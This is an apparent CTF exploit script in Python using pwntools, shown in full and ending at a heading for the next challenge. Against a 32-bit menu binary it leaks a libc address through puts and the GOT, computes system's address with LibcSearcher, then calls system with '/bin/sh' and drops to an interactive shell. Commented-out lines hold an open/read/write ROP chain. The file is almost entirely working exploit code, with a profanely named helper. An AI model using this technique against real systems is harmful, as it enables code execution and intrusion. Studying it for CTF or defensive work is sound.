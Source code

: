 ```python
    gdb.attach(a,script)
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
    a.sendlineafter("> ",str(idx))
def set_name(name):
    menu(6)
    menu(2)
    a.sendafter("Enter your name: ",name)
    return 

def delete(idx):
    return 
    
def edit(idx,content):
    return 
    
def show(idx):
    return 
relloc_offset = [0,2,4,6,0xb,0xc,0x10]
#payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33
payload = p32(0x08048e48) * (0x64 / 4)
set_name(payload)
menu(1)
#debug()
payload = "-10\x00" + p32(0) + p32(elf.plt["puts"]) +p32(0x804A605)+ p32(elf.got["puts"]) 
a.sendlineafter("> ",payload)
puts_addr = u32(a.recv(4))
libc =LibcSearcher("puts",puts_addr)
libc_base = puts_addr - libc.dump("puts")
fuck(libc_base)
payload = "/bin/sh\x00" + p32(0x08048e48) * (0x5c / 4)
set_name(payload)
menu(1)
#debug()
pop_3_ret = 0x080494da
payload = "-10\x00" + p32(0) + p32(libc_base + libc.dump("system")) +p32(0)+ p32(0x80580D0)
#payload = "-10\x00" + p32(0) + p32(elf.plt["open"]) + p32(pop_3_ret) + p32(0x80580D0) + p32(0) + p32(0)
#payload += p32(elf.plt["read"]) + p32(pop_3_ret) + p32(3) + p32(elf.bss() + 0x800) + p32(0x30)
#payload += p32(elf.plt["write"]) + p32(pop_3_ret) + p32(1) + p32(elf.bss()+ 0x800) + p32(0x30)
a.sendlineafter("> ",payload)
a.interactive()

```

### spirited_away
